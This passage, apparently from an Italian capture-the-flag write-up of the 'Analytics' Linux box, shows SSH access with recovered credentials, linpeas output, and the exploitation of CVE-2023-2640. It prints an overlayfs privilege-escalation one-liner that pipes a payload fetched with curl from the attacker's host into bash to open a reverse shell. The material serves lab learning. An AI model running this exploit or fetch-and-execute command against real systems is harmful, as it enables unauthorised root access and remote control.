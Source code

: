 ```text
metalytics:An4lytics_ds20223#
```

Provo quindi a sfruttarle per eseguire un accesso tramite ssh:

<p align="center">
  <img src="/Immagini/Linux-Box/Analytics/analytics-5.png" />
</p>

**Ottengo così il primo flag!**

## Privilege Escalation

Lanciando lo script _linpeas.sh_ scopro la seguente informazione:

```text
OS: Linux version 6.2.0-25-generic (buildd@lcy02-amd64-044) (x86_64-linux-gnu-gcc-11 (Ubuntu 11.3.0-1ubuntu1~22.04.1) 11.3.0, GNU ld (GNU Binutils for Ubuntu) 2.38) #25~22.04.2-Ubuntu
```

Facendo una ricerca capisco che questa versione di Ubuntu è vulnerabile alle seguenti vulnerabilità:
  * [CVE-2023-2640](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/)
  * [CVE-2021-3493](https://github.com/briskets/CVE-2021-3493)

### CVE-2023-2640

Per poter sfruttare questa vulnerabilità, ed elevare quindi i miei privilegi, utilizzo quindi il seguente script e avvio un listener sulla porta 8000:

```text
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("curl 10.10.14.5:8000/rev|bash")'
```

**Cosi facendo ottengo una reverse-shell!**

Purtroppo però non ho i permessi per accedere alla cartella root:

<p align="center">
  <img src="/Immagini/Linux-Box/Analytics/analytics-6.png" />
</p>
